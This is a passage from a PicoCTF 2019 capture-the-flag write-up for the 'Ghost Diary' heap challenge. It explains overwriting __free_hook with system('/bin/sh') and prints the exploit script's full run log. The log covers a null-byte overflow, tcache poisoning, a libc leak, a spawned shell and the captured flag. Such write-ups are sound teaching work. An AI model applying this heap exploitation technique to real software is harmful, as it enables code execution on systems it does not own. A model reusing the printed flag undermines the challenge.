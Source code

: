 5. We overwrote the `__free_hook` pointer to the `system('/bin/sh')` function. So, now we actually have to use our overwritten memory by calling `free()`, which redirects its actions to whatever function `__free_hook` happens to point to. Fore more info about `__free_hook` see step 2 of "Stage 2: Overwrite an Address" of the "zero_to_hero" writeup.

6. Run the [script.py](script.py) and get the flag `python script.py USER=<username> PASSWORD=<password>`:

    ```
    [*] '~/Documents/PicoCTF/Binary Exploitation/Ghost_Diary/ghostdiary'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [*] '/lib/x86_64-linux-gnu/libc.so.6'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [+] Connecting to 2019shell1.picoctf.com on port 22: Done
    [*] <username>@2019shell1.picoctf.com:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Opening new channel: 'pwd': Done
    [+] Receiving all data: Done (14B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] Working directory: '/tmp/tmp.9PpiXJTvxN'
    [+] Opening new channel: 'ln -s /home/<username>/* .': Done
    [+] Receiving all data: Done (0B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [+] Starting remote process b'/problems/ghost-diary_5_7e39864bc6dc6e66a1ac8f4632e5ffba/ghostdiary' on 2019shell1.picoctf.com: pid 2221031
    [*] Prepare chunks to overcome tcache 0x118 bin
    [*] Allocate chunks A, B, and C
    [*] Prepare chunks to overcome tcache 0x88 bin
    [*] Edit chunk B to create a fake chunk header with a `prev_size` value of 0x100
    [*] Fill tcache 0x118 bin with chunks allocated earlier
    [*] Free chunk B to the unsorted list
    [*] Execute null byte overflow into chunk B to modify size
    [*] Split chunk B into B1 and B2 by creating a chunk of size 0x88
    [*] Leak libc by reading chunk B1 (entry 0)
    [*] Leaked libc: 0x7f61e1fc9d90
    [*] Libc base: 0x7f61e1bde000
    [*] __free_hook: 0x7f61e1fcb8e8
    [*] system: 0x7f61e1c2d440
    [*] Call `malloc` to get our chunk that we’ll collapse over
    [*] Fill tcache 0x88 bin with chunks allocated earlier
    [*] Free chunk B1 (size 0x88) to ensure that a proper `prev_size` header is written
    [*] Free chunk C to backwards consolidate over B2, resulting in overlapping chunks
    [*] Free chunk B2 so it goes into the tcache
    [*] Create a chunk of size 0x130 to allocate the overlapping chunk
    [*] Overwrite the forward address of chunk B2 to `__free_hook` by using overlapped chunks
    [*] Remove chunk B2 from the tcache list, leaving the head pointing at `__free_hook`
    [*] Request the next chunk from the same tcache list to add a pointer to `__free_hook` to the diary.
    [*] Set `__free_hook` to `system('/bin/sh')` by editing the page that points to `__free_hook`
    [*] Call `free()`, which will run `__free_hook` and therefore run `system('/bin/sh')`
    [*] Run `cat flag.txt` in the shell, regex match the flag, and print it
    [+] picoCTF{nu11_byt3_Gh05T_abf74d12}